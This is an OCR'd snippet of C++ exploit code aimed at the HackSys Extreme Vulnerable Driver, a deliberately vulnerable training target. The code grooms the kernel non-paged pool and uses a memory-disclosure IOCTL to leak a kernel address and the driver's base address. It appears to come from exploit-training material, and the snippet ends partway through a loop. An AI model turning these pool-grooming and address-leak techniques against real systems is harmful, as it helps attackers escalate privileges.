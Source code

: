 ```cpp

	for (unsigned int h = 0; h < 2500; h++) {
		if (DeviceIoControl(hFile, 0x222053, nullptr, 0, nullptr, 0, &lpBytesReturned, nullptr)) {
			printf("\n[!] Error calling \"HEVD_IOCTL_ALLOCATE_UAF_NON_PAGED_POOL_NX\"\n");
			getchar();
			for (unsigned int u = 0; u < 5000; u++) {
				if (Events[u] != NULL) {
					CloseHandle(Events[u]);
					Events[u] = NULL;
				}
			}
			return -1;
		}
	}

	for (unsigned int i = 0; i < 5000; i++) {

		if (i % 2 != 0) {
			CloseHandle(Events[i]);
			Events[i] == NULL;
		}
	}

	for (unsigned int j = 0; j < 2000; j++) {

		if (kernel) {
			break;
		}

		if (!DeviceIoControl(hFile, 0x22204F, nullptr, 0, &pOutBuffer, sOutBuffer, &lpBytesReturned, nullptr)) {
			printf("\n[!] Error calling \"HEVD_IOCTL_MEMORY_DISCLOSURE_NON_PAGED_POOL_NX\"\n");
			getchar();
			for (unsigned int u = 0; u < 5000; u++) {
				if (Events[u] != NULL) {
					CloseHandle(Events[u]);
					Events[u] = NULL;
				}
			}
			return -1;
		}

		memcpy(&tag, (DWORD*)((byte*)pOutBuffer + 0x70 + 4), sizeof(UINT32));
		if (tag == *(DWORD*)"Hack" /*tag == 0x6B636148*/) {
			printf("\nHEVD module found: \"%c%c%c%c\"\n", ((char*)&tag)[0], ((char*)&tag)[1], ((char*)&tag)[2], ((char*)&tag)[3]);
			memcpy(&addrKrnl, (UINT64*)((byte*)pOutBuffer + 0x80), sizeof(UINT64));
			printf("\tKernel Address -> [0x%p]\n", addrKrnl);
			printf("\t\t\\__Module base -> [0x%p]\n", addrKrnl - 0x88130);
			if ((addrKrnl & 0xfffff00000000000) == 0) {
				kernel = true;
			}
			break;
		}
		else {
			printf("\nTAG: \"%c%c%c%c\"\n", ((char*)&tag)[0], ((char*)&tag)[1], ((char*)&tag)[2], ((char*)&tag)[3]);
		}

	}

	for (unsigned int u = 0; u < 5000; u++) {
		if (Events[u] != 0) {
```